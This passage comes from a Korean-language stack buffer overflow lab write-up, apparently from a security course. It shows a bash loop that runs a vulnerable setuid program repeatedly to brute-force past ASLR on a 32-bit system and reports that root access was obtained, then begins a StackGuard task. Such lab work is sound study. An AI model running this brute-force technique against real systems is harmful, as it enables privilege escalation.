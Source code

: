 - Step 2: 우리는 vulnerable program(stack.c)를 반복적으로 실행하여, 결국에는 우리가 원하는 badfile이 맞도록 할 것이다. 그러기 위해서, 다음과 같은 shell script를 실행시키자. 해당 프로그램은 정상적으로 ./stack이 실행 됐을 때 종료 된다.
    
    ```powershell
    #!/bin/bash
    
    SECONDS=0
    value=0
    
    while [ 1 ]
        do
        value=$(( $value+1 ))
        duration=$SECONDS
        min=$(($duration / 60))
        sec=$(($duration % 60))
        echo "$min minutes and $sec seconds elapsed."
        echo "The program has been running $value times so far."
        ./stack
    done
    ```
    

### Result

- Step 2에 대한 결과
    
    ![▲ 실행화면](/images/Stack%20Buff%208fe39/Untitled%2015.png)
    
    → 정상적으로 루트 권한을 얻은 모습을 볼 수 있다.
    

### Consideration

- 결과적으로, 32bit 운영체제에서는 stack의 배정 범위가 그렇게 많지 않으므로, badfile이 맞을 때까지 계속해서 loop를 돌리면 언젠가는 맞는 것이 가능하다.

## Task 5: Turn on the StackGuard Protection

---

### Task purpose

- 우리는 이번 Task에서 StackGuard Protection이 켜져있는 상황에서의 Task 2를 진행할 것이다.

### Progress

- Step 1: 이전 Task에서 켰던 ASLR option을 다시 0으로 설정해준다.
    
    ![▲ 실행화면](/images/Stack%20Buff%208fe39/Untitled%2016.png)
    